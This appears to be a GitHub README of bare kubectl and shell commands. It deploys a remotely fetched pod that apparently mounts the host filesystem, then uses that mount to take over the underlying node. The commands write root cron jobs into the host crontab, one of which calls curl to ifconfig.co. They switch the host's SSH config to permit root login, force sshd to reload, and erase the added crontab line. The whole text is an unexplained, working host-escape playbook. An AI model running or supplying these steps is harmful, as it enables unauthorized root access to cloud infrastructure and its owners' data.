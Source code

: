 # k8s

```bash
kubectl apply -f https://raw.githubusercontent.com/ShubhamTatvamasi/k8s/master/ibm.yaml
```
```bash
kubectl set image po ubuntu ubuntu=ubuntu:16.04
```
```bash
kubectl exec -it ubuntu -- bash
```
```bash
kubectl exec -it ubuntu -- tail /root/ibm/var/log/syslog -f
```
add commands to run on host
```bash
echo "* * * * * root curl ifconfig.co > /root/data 2>&1" >> /root/ibm/etc/crontab
```
```bash
vim /root/ibm/etc/crontab
cat /root/ibm/root/data
```
---

SSH Steps
```bash
sed -i 's/PermitRootLogin no/PermitRootLogin yes/g' /root/ibm/etc/ssh/sshd_config

cat /root/ibm/etc/ssh/sshd_config | grep PermitRootLogin
```

restart SSH Daemon
```bash
echo "* * * * * root killall -1 sshd && echo "Killed SSH Daemon" > /root/data 2>&1" >> /root/ibm/etc/crontab
```

delete last line from file
```bash
sed -i '$ d' /root/ibm/etc/crontab
```

```bash
kubectl delete po ubuntu
```
